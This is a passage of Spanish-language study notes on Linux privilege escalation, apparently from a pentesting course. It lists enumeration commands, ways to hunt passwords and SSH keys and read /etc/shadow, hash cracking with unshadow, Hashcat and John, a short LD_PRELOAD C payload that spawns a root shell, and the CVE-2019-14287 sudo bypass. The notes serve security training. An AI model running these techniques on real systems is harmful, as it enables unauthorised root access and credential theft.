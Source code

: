  # Ciber Mentor LINUX
 
## Webpages de ayuda
* Basic Linux Privilege Escalation - [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* Linux Privilege Escalation - [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* Checklist - Linux Privilege Escalation - [https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
* Sushant 747's Guide (Country dependant - may need VPN) - [https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)

## Initial Enumeration 

- **lsb_release -a** -> Para ver que distribucion de Linux es
- **hostname** -> En que distribucion de Linux estamos
- **uname -a** -> Miramos el Kernel y algunos detalles, amdx64 o x86, version. Buscar el Google si existe algun exploit. 
- **cat /proc/version** -> Miramos algo similar al comando anterior
- **cat /etc/issue** -> Miramos la distribucion, arquitectura, etc...
- **ps aux** -> Servicios que estan corriendo, que usuario esta corriendo la tarea, tareas Cron
	- **ps aux | grep root** -> Mirar las tareas que se ejecutan del usuario root

- **whoami** -> Quien soy?
- **id** -> Miramos nuestro user ID, a que grupos pertenecemos, etc...
- **sudo -l** -> Para ver si tenemos privilegios en el Sudoers (l=ele), que podamos ejecutar comandos como (root) NOPASSWD
	- **sudo Command** -> Para poder ejecutar comando como root
- **cat /etc/passwd** -> Podemos ver los usuarios, no las passwd. Los usuarios tiene /bin/bash al final 
- **cat /etc/shadow** -> Archivos sensibles 
- **cat /etc/group** -> 
- **history** -> Podemos ver el historial de los comandos
- **sudo su -** -> Covertirnos en root, colocando la passwd

- **ifconfig** o  **ip a** -> Miras las interfaces de Linux, IP Address
- **route** o **ip route** -> Miras la tabla de ruteo y la interface
- **arp -a** o **ip neigh** -> Miras la tabla de ARP
- **netstat -ano** -> Miras los puertos que estan abiertos de manera interna

- **grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null** -> Te colorea la palabra passwd para que se mas facil encontrarla
- **locate password | more** -> Buscamos la palabra password y lo concatenamos con el coamndo More para ir bajando lentamente.
- **find / -name authorized_keys** o **find / -name id_rsa 2> /dev/null** -> Encontrar la clave rsa de SSH

## Exploring Automated Tools
Webpages 
- LinPeas - [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) Te muestra todas las vulnerabilidades que existen en esa distribucion 
- LinEnum - [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
- Linux Exploit Suggester - [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- Linux Priv Checker - [https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)

- **./linpeas.sh** -> Para ejecutar el binario
Podremos ver los diferentes colores y ahi podremos ver en donde es mas facil poder hacer el (PE=Privilege Escalation)
- **./linux-exploit-suggester.sh** -> Podemos ver los CVE potenciales


## Kernel Exploits
Webpage 
- Kernel Exploits - [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)
Podemos buscar la version del Kernel en Google y ver si tiene un exploit, o podemos usar la herramienta Exploit Suggester para ver los exploits que podemos usar para Escalar Privilegios

## Escalation Path: Passwd and File permisions
- **history** -> Podemos ver el historial y puede que haya alguna passwd
- **.bash_history** -> Lo podemos encontrar al momento de hacer 'ls -la', despues un 'cat'. Ahi tambien podrian existir passwd
- **myvpn.ovpn** -> Podemos hacerle un 'cat' al file del VPN y mirar la ruta de su passwd y asi obtenerla

Podemos usar la Web de PaylodAllTheThings para mirar los archivos que contienen passwd y correr el comando. 

- **cat /etc/passwd** -> Podemos ver los usuarios, gupo e id, tambien contiene un primer x que es ahi donde esta la passwd
- **cat /etc/shadow** -> Podems ver los Hash 
Podemos hacer cosas maliciosas con la Tool '**Unshadow**' 
1.- Debemos de tener el contenido del '/etc/passwd' en un archivo que se llame 'passwd'
2.- Debemos de tener el contenido del '/etc/passwd' en un archivo que se llame 'shadow'
Esta Tool te hara juntar los dos archivos 
Despues con Hashcat podemos saber que tipo de Hash es y usando el diccionario de rockyou podriamos saber la passwd
O podemos usar John the Ripper para saber la passwd con el Hash


Podemos encontrar algunas keys con estos comandos:
- **find / -name authorized_keys 2> /dev/null** Para buscar la clave Publica
- **find / -name id_rsa 2> /dev/null** Para buscar la clave Privada
Buscaremos la id_rsa para podernos conectar por SSH con la clave privada 
- **ssh -i id_rsa user@ip** -> Nos conectamos por SSH sin proporcionar la passwd, el archivo id_rsa debe tener 600 de privilegio con chmod

## Escalation Path Sudo

Webpage Buscar en 'Sudo privileges' el comando que podamos ejecutar en el sudoers
GTFOBins - [https://gtfobins.github.io/](https://gtfobins.github.io/)
Linux PrivEsc Playground - [https://tryhackme.com/room/privescplayground](https://tryhackme.com/room/privescplayground)

- **sudo -l** Podemos ver los privilegios en el sudoers (l=ele) y ver que comandos podemos ejecutar como root sin passwd
Tenemos comandos para vim, awk, nano, apache2, etc...
- **LD_PRELOAD** Podemos hacer un script en el cual podriamos ejecutar cualquie comando que aparezca en el Sudoers (Liberia PreLoad)
	- **nano shell.c**
		\#incude  <stdio.h>
		\#include <sys/types.h>
		\#include <stdlib.h>

		void init() {
			unsetenv("LD_PRELOAD");
			setgid(0);
			setuid(0);
			system("/bin/bash");
		}
**gcc -fPIC -shared -o shell.so shell.c -nostartfiles** Despues lo compilamos
**sudo LD_PRELOAD=/home/user/shell.so < COMMAND>** Ahi podemos colocar cualquier comando que salga en el sudoers, debemos de colocar la ruta absoluta del shell.so


Exploit-DB for CVE-2019-14287 - [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502) Cuando tenemos en el Sudoers un (!root)
Ahi nos explica que comando poner para poder ser root.
- **sudo -u#-1 /bin/bash** Comando para ser root cuando tenemos en el sudoers un (!root)


## Escalation Path: SUID (Set User ID)
1er Owner (Propietario), 2do Grupo, 3ro Otros (r=read, w=write, x=execute, d=directory) (r=4 bits, w=2bits, x=1bit)  7=rwx
- **chmod +x file** Asignamos los permisos de ejecucion, en este caso para todos 
- **chmod o+x file** Asignamos permisos de ejecucion, en este caso para otros

- **find / -perm -u=s -type f 2>/dev/null** Buscaremos en la raiz los archivos que contengan el permiso S (f=files) y los errores que no nos aparezcan, encotramos varios, por lo que escogemos uno para ver sus privilegios
	Se verian asi:
		**ls -la /usr/bin/systemctl** Para ver los privilegios del archivo y lo mirariamos asi - rw**s** r-x r-x 
GTFOBins - [https://gtfobins.github.io/](https://gtfobins.github.io/) Para buscar ahi el SUID y ver como podemos ejecutar el comando para escalar privilegios
Aveces no todos son vulnerables y por lo tanto no se encuentran en esa pagina.

## Escalation Path: Other SUID Escalation
